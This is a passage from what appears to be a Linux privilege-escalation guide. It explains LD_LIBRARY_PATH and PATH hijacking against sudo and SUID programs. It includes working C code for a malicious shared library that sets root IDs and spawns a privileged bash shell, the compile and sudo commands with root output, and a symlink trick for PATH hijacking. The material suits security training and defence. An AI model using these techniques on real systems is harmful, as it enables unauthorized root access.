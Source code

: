 We can choose any of these filenames to overwrite. Let's take `libcrypt.so.1` for example. We'll again compile some C code to a valid library with the functions that it will expect:

{% code title="library_path.c" %}
```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));  // Function that is called

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);  // Root permissions
        system("/bin/bash -p");  // Start bash shell (keeping permissions)
}
```
{% endcode %}

Then we compile it again to a library and set the `LD_LIBRARY_PATH` to a directory containing our malicious library:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ gcc -o /tmp/libcrypt.so.1 -shared -fPIC library_path.c
</strong><strong>$ sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2
</strong># id
uid=0(root) gid=0(root) groups=0(root)
</code></pre>

### `$PATH`

When a program is executed with [#setuid](command-triggers.md#setuid "mention"), the current environment variables are kept. This means you have even more control over the program's behavior by changing environment variables before executing it. One common trick is using the `$PATH` variable, which has a `:` colon-separated list of directories saying where to find programs without an absolute path.&#x20;

To find what commands are executed by an unknown program, you can try to use [#pspy](enumeration.md#pspy "mention") to find commands executed on the system. Another way would be to use [Broken link](broken-reference "mention") to find what the program exactly does. Tools like `strace` will show `execve()` calls for all executed processes, and if this command isn't available, it will be if you copy the binary to you locally.&#x20;

Suppose you found the SUID program executes `service` instead of `/usr/sbin/service`, then it will **search through directories** in the PATH variable containing a file named "service". \
But since we can **change** the PATH environment variable before executing the program, we could prepend a directory containing our own malicious program also named "service". When the `service` command is then executed by the SUID binary, it will actually run the malicious binary from our directory, allowing us to run arbitrary code.&#x20;

When you find a vulnerable command, you can simply create a binary with the same name that does whatever you want:

```bash
ln -s /bin/bash /tmp/service
```
